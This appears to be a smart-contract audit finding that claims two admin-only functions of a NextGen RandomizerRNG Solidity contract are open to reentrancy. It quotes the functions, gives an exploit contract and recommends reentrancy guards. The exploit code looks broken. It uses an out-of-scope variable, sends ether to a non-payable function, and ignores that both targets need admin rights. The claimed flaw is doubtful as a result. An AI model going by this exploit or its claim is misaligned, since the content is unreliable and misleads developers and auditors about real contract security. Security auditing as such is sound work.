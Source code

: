 **Vulnerable updateAdminContract function to reentrancy**
```sol
// Ln 61-64
    function updateAdminContract(address _newadminsContract) public FunctionAdminRequired(this.updateAdminContract.selector) {
        require(INextGenAdmins(_newadminsContract).isAdminContract() == true, "Contract is not Admin");
        adminsContract = INextGenAdmins(_newadminsContract);
    }
```
**Vulnerable emergencyWithdraw function to reentrancy**
```sol
// Ln 79-84
    function emergencyWithdraw() public FunctionAdminRequired(this.emergencyWithdraw.selector) {
        uint balance = address(this).balance;
        address admin = adminsContract.owner();
        (bool success, ) = payable(admin).call{value: balance}("");
        emit Withdraw(msg.sender, success, balance);
    }
```
**Exploit Reentrancy**
```sol
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.19;

import "./RandomizerRNG.sol";

contract tRandomizerRNG {

   RandomizerRNG public x1;

   constructor(RandomizerRNG _x1) {

      x1 = RandomizerRNG(_x1);

   }

   function testReenEnter() public payable {

      x1.updateAdminContract(address(_x1));
      x1.emergencyWithdraw{value: 2 ether}();

   }

   receive() external payable {

      msg.sender.transfer(payable(address(_x1)).balance);

   }

   }
```
## Tools Used
VS Code.
## Recommended Mitigation Steps
All functions that are not internal and are making a call should have a reentrancy guard added to them.
Checks-Effects-Interactions should be applied to the functions. 
Balance updates should be made at the beginning of the call.
The actual call should be made at the end of the function.
So that the balance is already updated first and reentrancy is not possible.